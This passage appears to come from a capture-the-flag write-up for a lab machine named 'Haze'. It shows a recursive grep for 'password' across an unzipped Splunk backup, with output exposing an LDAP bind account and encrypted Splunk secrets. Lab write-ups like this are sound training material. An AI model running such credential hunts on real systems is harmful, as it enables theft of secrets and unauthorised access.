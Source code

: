![alt text](../assets/images/haze21.png)

Lets download it.

unzip it and 

```bash
grep -airC 5 'password'
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-bindDN = CN=alexander.green,CN=Users,DC=haze,DC=htb
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-charset = utf8
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-emailAttribute = mail
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-enableRangeRetrieval = 0
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-groupBaseDN = CN=Splunk_Admins,CN=Users,DC=haze,DC=htb
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-groupMappingAttribute = dn
--
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-[general]
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-serverName = dc01
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-pass4SymmKey = $7$u538ChVu1V7V9pXEWterpsj8mxzvVORn8UdnesMP0CHaarB03fSbow==
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-[sslConfig]
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf:sslPassword = $7$C4l4wOYleflCKJRL9l/lBJJQEBeO16syuwmsDCwft11h7QPjPH8Bog==
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-[lmpool:auto_generated_pool_download-trial]
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-description = auto_generated_pool_download-trial
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-peers = *
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-quota = MAX
```

